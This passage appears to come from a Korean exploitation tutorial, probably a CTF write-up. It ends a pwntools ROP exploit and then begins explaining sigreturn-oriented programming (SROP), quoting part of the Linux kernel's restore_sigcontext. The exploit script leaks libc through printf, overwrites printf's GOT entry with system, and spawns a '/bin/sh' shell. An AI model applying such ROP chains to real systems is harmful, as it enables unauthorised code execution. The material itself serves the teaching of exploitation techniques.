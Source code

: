 ```python
ex += p64(pop_rdi)
ex += p64(read_got)
ex += p64(printf_plt)
  
ex += p64(pop_rdx_rsi_rdi)
ex += p64(8)
ex += p64(bss)
ex += p64(0)
ex += p64(read_plt)
  
ex += p64(pop_rdx_rsi_rdi)
ex += p64(8)
ex += p64(printf_got)
ex += p64(0)
ex += p64(read_plt)
  
ex += p64(pop_rdi)
ex += p64(bss)
ex += p64(printf_plt)
  
p.sendafter("comment.",ex)
  
p.recvuntil("you!\n")
read =  u64(p.recv(6)+b"\x00\x00")
  
system = read - read_system_off
  
 
p.send(b'/bin/sh')
  
sleep(1)
p.send(p64(system))
p.interactive()
```
![](https://i.imgur.com/tTqLs61.png)


## SROP

## SROP란?

리눅스에서는 시그널이 들어오면 커널 모드에서 처리하게 되는데, 커널 모드에서 유저모드로 돌아오는 과정에서 유저의 스택에 레지스터 정보들을 저장해놓는다. rt_sigreturn은 이렇게 저장해놓은 정보들을 다시 돌려놓을 때 사용된다.

만약 공격자가 rt_sigreturn 시스템 콜을 호출할 수 있고 스택을 조작할 수 있다면 모든 레지스터와 세그먼트를 조작할 수 있다. 이처럼 rt_sigreturn 시스템 콜을 사용하여 익스플로잇 하는 기법을 SigReturn Oriented Programming(SROP)라고 한다.

## restore_sigcontext

```c
static int restore_sigcontext(struct pt_regs *regs,
			      struct sigcontext __user *sc,
			      unsigned long uc_flags)
{
	unsigned long buf_val;
	void __user *buf;
	unsigned int tmpflags;
	unsigned int err = 0;
	/* Always make any pending restarted system calls return -EINTR */
	current->restart_block.fn = do_no_restart_syscall;
	get_user_try {
#ifdef CONFIG_X86_32
```